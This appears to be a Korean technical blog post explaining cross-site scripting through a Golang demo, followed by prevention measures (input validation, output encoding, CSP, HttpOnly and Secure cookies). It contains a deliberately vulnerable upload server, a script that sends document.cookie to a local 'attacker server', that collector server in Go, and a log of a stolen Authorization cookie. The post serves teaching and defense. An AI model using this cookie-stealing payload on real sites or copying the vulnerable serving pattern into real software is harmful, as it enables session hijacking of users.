

+++
author = "penguinit"
title = "XSS 란 무엇인가 Golang을 통해서 알아보기"
date = "2024-03-17"
description = "오늘 포스팅에서는 XSS(Cross-Site Scripting)에 대해서 알아보고 Golang으로 간단하게 웹 서버를 구축해보고 어떤 식으로 공격을 할 수 있는지에 대해서 알아보겠습니다."
tags = [
"xss", "browser", "golang"
]
categories = [
"web", "language"
]
+++

## 개요

오늘 포스팅에서는 XSS(Cross-Site Scripting)에 대해서 알아보고 Golang으로 간단하게 웹 서버를 구축해 보고 어떤 식으로 공격을 할 수 있는지에 대해서 알아보겠습니다.

## XSS란

XSS(Cross-Site Scripting)는 사용자가 제공한 입력값을 검증하거나 적절히 이스케이프 처리하지 않았을 때 발생할 수 있는 취약점을 얘기합니다. 공격자는 이 취약점을 이용해 악의적인 스크립트를 웹 페이지에 삽입할 수 있으며, 이 스크립트는 다른 사용자의 브라우저에서 실행되고 이를 통해 사용자 세션을 탈취하거나 웹 사이트를 변조하는 등의 행위를 할 수 있습니다.



## XSS 공격 예시

간단하게 Golang을 통해서 웹 서버를 만들어보고 민감한 정보를 가져오는 예제를 만들어 보겠습니다.

### 특정 컨텐츠를 업로드해서 보여주는 서버

```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"os"
)

func uploadFileHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.Method == "POST" {
			// 1. 파일을 추출
			file, _, err := r.FormFile("uploadedFile")
			if err != nil {
				http.Error(w, err.Error(), http.StatusBadRequest)
				return
			}
			defer file.Close()

			// 2. 파일 내용을 읽음
			fileBytes, err := io.ReadAll(file)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}

			// 3. 파일 내용을 서버의 임시 파일로 저장
			err = os.WriteFile("uploadedScript.html", fileBytes, 0644)
			if err != nil {
				http.Error(w, err.Error(), http.StatusInternalServerError)
				return
			}

			fmt.Fprintf(w, "File uploaded successfully")
		}
	}
}

func serveContentHandler() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		http.ServeFile(w, r, "uploadedScript.html")
	}
}

func main() {
	http.HandleFunc("/", uploadFileHandler())
	http.HandleFunc("/content", serveContentHandler())

	fmt.Println("Server started at :8080")
	http.ListenAndServe(":8080", nil)
}
```
`POST /` 함수로 XSS 공격을 위한 스크립트를 업로드할 수 있고 `GET /content` 함수를 통해서 업로드한 컨텐츠를 유저에게 전달합니다.

### 업로드 되는 XSS 공격을 위한 스크립트

```jsx
// xss.html

<script>
function sendCookies() {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://localhost:8081/steal?cookie=" + encodeURIComponent(document.cookie), true);
    xhr.send();
}

sendCookies();
</script>
```
해당 스크립트가 수행이되면 8081 포트로 스크립트를 수행하는 유저의 쿠키정보를 공격자 서버로 전송합니다.

### 공격자 서버

공격자 서버에서는 심어둔 XSS 공격 스크립트를 통해서 쿠키 정보를 전달 받습니다.

```go
package main

import (
	"fmt"
	"log"
	"net/http"
)

func main() {
	http.HandleFunc("/steal", func(w http.ResponseWriter, r *http.Request) {
		enableCors(&w)

		// 쿼리 파라미터에서 "cookie" 값을 가져옵니다.
		cookie := r.URL.Query().Get("cookie")
		// 콘솔에 출력합니다.
		fmt.Printf("Stealed Cookie: %s\n", cookie)

		w.WriteHeader(http.StatusOK)
		fmt.Fprint(w, "OK")
	})

	log.Println("공격자 서버 8081 포트에서 시작...")
	log.Fatal(http.ListenAndServe(":8081", nil))
}

func enableCors(w *http.ResponseWriter) {
	(*w).Header().Set("Access-Control-Allow-Origin", "*")
}
```

### 실제 수행결과

1. curl을 이용해서 formFile 업로드

```
curl -F "uploadedFile=@path/to/xss.html" http://localhost:8080/
```

2. GET /content 를 특정유저가 접속 ([http://localhost:8080/content](http://localhost:8080/content))
3. 공격자 서버에서 쿠키정보를 갈취

```
2024/03/17 17:02:10 공격자 서버 8081 포트에서 시작...
Stealed Cookie: Authorization=t1823ski!3a;
```

위에 예제를 통해서 XSS 공격 스크립트를 삽입하고 고객이 해당 페이지에 접근했을 때 공격자 서버로 쿠키관련 정보를 얻게 됩니다.

## XSS 방지

XSS 공격을 사전에 방지하기 위해서 여러 가지 방법을 고려해 볼 수 있습니다.

1. 입력 검증: 사용자로부터 받는 모든 입력에 대해 검증을 수행해야 합니다. 예를 들어, 이메일 주소 필드에는 오직 이메일 주소만 허용되어야 하고, 이름을 입력하는 곳에서는 길이를 제한하거나 특정 문자가 들어오도록 검증하는 것들을 포함할 수 있습니다.
2. 출력 인코딩: 사용자 입력을 웹 페이지에 출력할 때, HTML 인코딩을 사용하여 스크립트 태그와 같은 잠재적으로 위험한 문자를 안전한 형태로 변환합니다. 예를 들어 `<`를 `&lt;`로, `>`를 `&gt;`로 변환합니다.
3. CSP(Content Security Policy): CSP를 사용하면, 웹 페이지에서 실행할 수 있는 스크립트의 출처를 제한할 수 있습니다.  → [CSP 란 무엇인가, Golang으로 자세히 알아보기](/post/202403/5/)
4. 쿠키 설정: `HttpOnly`와 `Secure` 플래그를 사용하면, XSS 공격으로부터 사용자의 세션을 보호하는 데 도움이 됩니다.
    1. `HttpOnly`: 이 플래그가 설정된 쿠키는 JavaScript를 통해 접근할 수 없으므로, XSS 공격을 통한 쿠키 탈취를 방지할 수 있습니다.
    2. `Secure`: 이 플래그가 설정된 쿠키는 오직 HTTPS를 통해서만 전송됩니다.

## 정리

XSS 공격은 위에 예시 외에도 다양한 방법으로 시도될 수 있습니다. DB에 저장되는 특정 필드에 공격 스크립트를 넣을 수도 있고 사용자의 입력을 그대로 출력하는 기능이 있을 경우 위에 얘기한 XSS 공격을 고려하지 않았을 때 원치 않는 스크립트를 바로 수행할 수도 있습니다. 

해당 포스팅에서는 XSS가 무엇인지 그리고 어떤 식으로 공격을 시도할 수 있는지에 대해서 간단단 Golang 예제를 통해서 알아보았습니다.